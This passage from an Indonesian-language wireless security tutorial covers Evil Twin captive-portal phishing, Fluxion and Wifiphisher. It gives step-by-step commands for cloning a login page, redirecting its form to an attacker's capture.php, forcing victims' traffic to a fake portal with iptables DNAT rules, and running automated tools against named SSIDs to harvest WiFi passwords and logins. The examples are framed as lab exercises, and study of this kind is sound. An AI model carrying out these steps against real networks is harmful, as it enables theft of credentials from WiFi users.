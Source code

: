 - **Contoh Penggunaan**: Downgrade koneksi HTTPS korban ke HTTP untuk menangkap login credentials di lab.

## Captive Portal Phishing

- **Definisi**: Teknik menampilkan halaman login palsu (captive portal) saat korban terhubung ke Evil Twin, meniru portal legitimate untuk mencuri kredensial.
- **Skenario**: Meniru captive portal hotel, bandara, kafe (contoh: "Masukkan password WiFi untuk melanjutkan").
- **Langkah-langkah**:
  1. Setup Evil Twin dengan hostapd dan dnsmasq.
  2. Clone halaman login target: `wget -r -l 1 -k -p https://target.com/login`.
  3. Modifikasi HTML untuk mengirim kredensial ke attacker: tambahkan form action ke `http://192.168.1.1/capture.php`.
  4. Setup web server dengan halaman phishing: `sudo python3 -m http.server 80`.
  5. Setup iptables untuk redirect semua HTTP ke captive portal:
     ```
     sudo iptables -t nat -A PREROUTING -p tcp --dport 80 -j DNAT --to-destination 192.168.1.1:80
     sudo iptables -t nat -A PREROUTING -p tcp --dport 443 -j DNAT --to-destination 192.168.1.1:80
     ```
  6. Buat script PHP untuk menyimpan kredensial: `capture.php` (simpan POST data ke file).
- **Kelebihan**: Sangat meyakinkan untuk korban, dapat customized untuk target spesifik, high success rate.
- **Kekurangan**: Memerlukan web development skill, mudah terdeteksi jika design tidak sempurna.
- **Contoh Penggunaan**: Membuat captive portal palsu "Hotel WiFi Login" untuk menangkap email dan password di lab.

## Fluxion dan Wifiphisher

- **Definisi**: Tools automated untuk Evil Twin attack yang mengintegrasikan semua tahapan (fake AP, deauth, captive portal) dalam satu framework.
- **Fluxion**:
  - **Cara Kerja**: Scan AP target → Capture handshake → Clone AP → Deauth klien → Captive portal phishing untuk "verifikasi password WPA".
  - **Langkah-langkah**:
    1. Clone repository: `git clone https://github.com/FluxionNetwork/fluxion.git`.
    2. Install dependencies: `cd fluxion && sudo ./fluxion.sh --install`.
    3. Jalankan Fluxion: `sudo ./fluxion.sh`.
    4. Pilih interface, scan AP target, pilih metode handshake capture.
    5. Pilih template captive portal (generic, router-specific).
    6. Tunggu korban memasukkan password di captive portal, Fluxion verifikasi dengan handshake.
  - **Kelebihan**: Fully automated, verifikasi password real-time dengan handshake, multiple language support.
  - **Kekurangan**: Memerlukan handshake capture terlebih dahulu, dependency banyak, resource-intensive.
- **Wifiphisher**:
  - **Cara Kerja**: Automated Evil Twin dengan phishing templates (firmware upgrade, OAuth login, browser plugin update).
  - **Langkah-langkah**:
    1. Install: `sudo apt install wifiphisher` atau `git clone https://github.com/wifiphisher/wifiphisher.git`.
    2. Jalankan: `sudo wifiphisher -i wlan0 -e "Target_SSID" -p firmware-upgrade`.
       - `-e`: Target SSID, `-p`: Phishing scenario template.
    3. Wifiphisher otomatis setup AP, deauth, dan captive portal.
    4. Monitor kredensial di terminal atau log file.
  - **Kelebihan**: Mudah digunakan, banyak phishing templates, automatic deauth dan AP setup.
  - **Kekurangan**: Kurang customizable dibanding manual setup, tidak verifikasi password dengan handshake.
- **Contoh Penggunaan**: 
  - Fluxion: Menyerang AP "OfficeWiFi" dengan captive portal "Router Configuration Update" di lab.
  - Wifiphisher: Menjalankan Evil Twin dengan template "OAuth Login" untuk AP "CoffeeShop" di lab.
